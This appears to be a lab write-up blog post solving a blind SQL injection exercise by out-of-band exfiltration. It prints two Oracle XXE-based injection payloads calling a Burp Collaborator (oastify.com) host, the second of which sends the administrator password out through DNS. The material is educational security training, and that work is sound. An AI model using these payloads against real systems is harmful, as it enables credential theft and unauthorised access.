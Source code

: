 ```yaml
---
layout: post
title:  "Blind SQL injection with out-of-band data exfiltration"
date:   2024-09-26 09:39:54 +0530
---
```


## Objective 

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Solution

Same like previous lab, we have an application vulnerable to SQLI based out of band interaction vulnerability and let's take the same payload 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

In order to exfil the data, we need to slight change to the payload as per cheatsheet 

```sql
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||SELECT password FROM users WHERE username='administrator'||'.h1j5djyu3nv2dr3jkiyc733sajga410pp.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```

Sent the request, receives a status code of `200` 

![]({{ site.baseurl }}/assets/images/sqli57.png)

Checking the burp collaborator, Found that sqli query executed and got `password` in the collaborator response 

![]({{ site.baseurl }}/assets/images/sqli59.png)

Login into the `administrator` with the password and lab will be solved 

![]({{ site.baseurl }}/assets/images/sqli60.png)